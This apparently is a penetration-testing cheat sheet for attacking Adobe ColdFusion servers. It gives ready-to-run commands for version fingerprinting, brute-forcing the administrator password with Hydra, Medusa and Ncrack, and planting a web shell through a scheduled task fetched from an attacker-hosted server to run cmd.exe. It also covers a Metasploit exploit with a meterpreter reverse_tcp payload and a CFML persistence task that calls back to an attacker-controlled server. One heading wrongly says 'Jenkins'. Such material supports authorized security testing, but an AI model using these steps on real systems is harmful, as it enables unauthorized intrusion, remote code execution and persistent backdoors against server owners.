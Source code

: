 ### **INTRODUCTION**

ColdFusion is a commercial rapid web application development platform created by Allaire Corporation, which is now maintained by Adobe Systems. It consists of a programming language known as ColdFusion Markup Language (CFML), an integrated development environment (IDE), and a scalable server for developing and delivering web and mobile applications. ColdFusion is designed to simplify the connection between HTML pages and databases, as well as to assist in building dynamic websites with advanced features that interact with databases, manipulate file content, manage session state, and integrate with various web services.

### **IDENTIFYING JENKINS VERSION**

1.  Obtaining Version Using URL Path Enumeration:  
    `curl -I http://[COLDFUSION-DOMAIN]/CFIDE/administrator/`
2.  Obtaining Version Using Nmap:  
    `nmap -sV --script=http-coldfusion-version [COLDFUSION-DOMAIN]`
3.  Checking Version from Banner Grabbing:  
    `echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc [COLDFUSION-DOMAIN] 80`
    

### **DEFAULT DIRECTORIES AND FILES COLDFUSION**

1.  Access admin panel:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/administrator/index.cfm`
2.  Checking for Accessible Scripts:  
    `http://[COLDFUSION-DOMAIN]/CFIDE/scripts/`

### **BRUTE-FORCE COLDFUSION CREDENTIALS**

1.  Brute-Forcing with Hydra:  
    `hydra -l admin -P password_list.txt [COLDFUSION-URL] http-post-form "/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect"`
2.  Brute-Forcing with Medusa:  
    `medusa -h [COLDFUSION-URL] -u admin -P password_list.txt -M http -m FORM:"/CFIDE/administrator/index.cfm:cfadminPassword=^PASS^:F=incorrect" -T 10`
3.  Brute-Forcing with Ncrack:  
    `ncrack -p http-form-post://[COLDFUSION-URL]/CFIDE/administrator/index.cfm -U admin -P password_list.txt`
    

### **REMOTE CODE EXECUTION VIA FILE UPLOAD**

1.  Download the webshell.cfm from the GitHub repository:  
    `wget https://github.com/reider-roque/pentest-tools/blob/master/shells/webshell.cfm`
2.  Setting Up a Local Server with Python:  
    `python3 -m http.server 8000`
3.  Accessing the ColdFusion Administrator:  
    `Navigate to the admin panel.`
4.  Scheduling a Task to Download the Web Shell:
    - Task Name: `backdoor_download`
    - URL: `http://192.168.119.112:8000/webshell.cfm`
    - Publish: `True`
    - File: `c:\Inetpub\wwwroot\webshell.cfm`
5.  Opening the Web Shell via Browser:  
    `http://10.11.1.10/webshell.cfm`
6.  Use the web shell to execute a command on the server:
    - Command: `c:\windows\system32\cmd.exe`
    - Options: `/c whoami > c:\Inetpub\wwwroot\output.txt`
    - Timeout: `5`
7.  View the output from the executed command:  
    `http://10.11.1.10/output.txt`
    

### **AUTOMATING EXPLOITATION WITH METASPLOIT**

1.  Launch Metasploit Framework Console:  
    `msfconsole`
2.  Select the ColdFusion Exploit Module:  
    `use exploit/windows/http/coldfusion_fckeditor`
3.  Set the Remote Host (RHOST):  
    `set RHOST [target]`
4.  Set the Payload:  
    `set payload windows/meterpreter/reverse_tcp`
5.  Set the Local Host (LHOST):  
    `set LHOST [YOUR_IP_ADDRESS]`
6.  Execute the Exploit:  
    `exploit`

### **ESTABLISH PERSISTENCE**

Add a scheduled task in ColdFusion to call back to a command and control server:

```CFML
<cfschedule action="update" task="Backdoor" operation="HTTPRequest"
                url="http://[ATTACKER_SERVER]/backdoor.cfm" interval="600">
```